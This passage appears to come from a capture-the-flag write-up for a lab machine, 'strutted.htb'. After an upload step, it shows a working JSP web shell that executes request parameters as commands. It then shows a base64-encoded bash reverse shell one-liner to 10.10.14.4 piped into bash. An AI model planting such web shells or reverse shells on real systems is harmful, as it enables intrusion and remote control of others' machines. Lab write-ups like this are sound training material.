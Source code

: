 It says that the upload is succesfull:

![](Pasted%20image%2020250401104902.png)

![](Pasted%20image%2020250401110020.png)

Now to call the shell I just have to make a request to `http://strutted.htb/shell.jsp`:

![](Pasted%20image%2020250401110104.png)

![](Pasted%20image%2020250401110119.png)

So now I can craft a reverse shell and send it to gain remote access. I'll use the following one:

```jsp
<%@ page import="java.util.*,java.io.*"%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

And I put it inside the request:

![](Pasted%20image%2020250401110917.png)

So now to get the shell I'll first encode it to base64 and the decode it and pipe it to a bash:

```shell
# In my machine
echo 'bash -i >& /dev/tcp/10.10.14.4/666 0>&1 ' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzY2NiAwPiYxIAo=

# In the web shell
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzY2NiAwPiYxIAo=" | base64 -d | bash
```
